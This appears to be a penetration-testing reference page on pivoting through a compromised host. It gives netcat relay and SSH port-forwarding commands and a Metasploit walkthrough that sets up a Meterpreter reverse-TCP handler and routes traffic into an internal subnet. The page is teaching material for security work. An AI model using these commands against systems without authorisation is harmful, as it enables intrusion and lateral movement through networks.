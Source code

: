 # Pivoting

The technique of using one compromised machine to access another is called pivoting.

## Netcat Relay

```text
$mknod backpipe p
$nc –l –p 80 0<backpipe | nc 192.168.128.128 80 1>backpipe
```

![](../.gitbook/assets/netcat_relay.png)

## SSH Local Port Forwarding

SSH local port forwarding is set up by the command below:

```text
$ ssh –L port:destination_host:destination_port username@pivot_host
```

`-L` indicates to use local port forwarding

![](../.gitbook/assets/ssh_local.png)

## SSH Dynamic Port Forwarding

The syntax is as below:

```text
ssh –D address:port –f –N username@pivot_host
```

`-D` indicates to use dynamic port forwarding, `address` is local machine \(127.0.0.1\)

An example is shown below:

```text
# ssh -D 127.0.0.1:9150 -f -N user@192.168.112.132`
user@192.168.112.132's password:
```

![](../.gitbook/assets/ssh_dynamic_port_fwd.png)

_**SSH dynamic port forwarding can access multiple systems on different ports.**_

### Pivot with Metasploit and Meterpreter Sessions

**Step 1** Start the multi/handler exploit

```text
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.112.132
LHOST => 192.168.112.132
msf exploit(handler) > set LPORT 2222
LPORT => 2222
msf exploit(handler) > run
```

**Step 2** Run the executable on the compromised host and establish a Meterpreter session

**Step 3** Set up pivot by the metasploit route command

```text
msf exploit(handler) > route add 192.168.128.0 255.255.255.0 1
[*] Route added
msf auxiliary(tcp) > route print
```

**Step 4** Now metasploit modules can pivot through the compromised host and target  
systems on the internal network \(192.168.128.0/24\).

## Pivoting Technique Summary

### ![](../.gitbook/assets/pivot_summary.png)

## Interaction Between Web Application Penetration Testing Tools and pivoting

## ![](../.gitbook/assets/web_app_tool_pivot.png)


